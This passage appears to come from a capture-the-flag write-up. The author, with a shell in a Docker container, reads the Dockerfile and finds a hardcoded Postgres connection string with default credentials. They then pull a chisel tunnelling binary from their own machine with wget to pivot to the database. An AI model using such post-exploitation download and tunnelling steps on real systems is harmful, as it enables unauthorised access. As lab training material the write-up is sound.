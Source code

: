 ```bash
/app # ls -la 
ls -la
total 24
drwxr-xr-x    1 0        root          4096 Nov 10 16:00 .
drwxr-xr-x    1 0        root          4096 Feb 19 05:32 ..
-rw-r--r--    1 0        root          1024 Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 0        root           522 Nov  3 12:58 Dockerfile
drwxr-xr-x    1 0        root          4096 Nov 10 16:00 app
-rw-r--r--    1 0        root           672 Jun  4  2022 requirements.txt
PYTHON_GET_PIP_SHA256=b86f36cc4345ae87bfd4f10ef6b2dbfa7a872fbff70608a1e43944d283fd0eee
/app # cat Dockerfile 
FROM python:3.6.9-alpine

RUN apk --update --upgrade add --no-cache  gcc musl-dev jpeg-dev zlib-dev libffi-dev cairo-dev pango-dev gdk-pixbuf-dev

WORKDIR /app
ENV HOME /home/svc
ENV PATH /home/svc/.local/bin:${PATH}
RUN python -m pip install --upgrade pip --user svc
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
RUN pip install pydantic[email] pyjwt
EXPOSE 8000
COPY . .
CMD ["python3", "-m", "uvicorn", "app.main:app", "--reload", "--workers", "100", "--host", "0.0.0.0", "--port" ,"8000"]
```

Poking around the app's python files, we see a default/fallback connection string which is used in the absence of `DATABASE_URL` in the environment:

```bash
/app/app # cat db.py
.. snip ..
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```

Here's where I did a very quick crash course on tunnelling, to see if I could somehow tunnel the postgres connection above through to my own machine..  We have a minimal docker container with no `psql`, so connecting to the postgres instance with the credentials in the connection string above is not easy without first tunnelling the connection through our own machine.

I found [chisel](https://github.com/jpillora/chisel/), a go-based app that allows you to tunnel TCP connections over HTTP.

0xdf's quick chisel cheatsheet here was quite useful:[Tunneling with Chisel and SSF | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

I ran `python -m 'http.server' 8888` on my machine, and `wget http://10.10.14.33:8888/chisel` to download the chisel binary into the container.

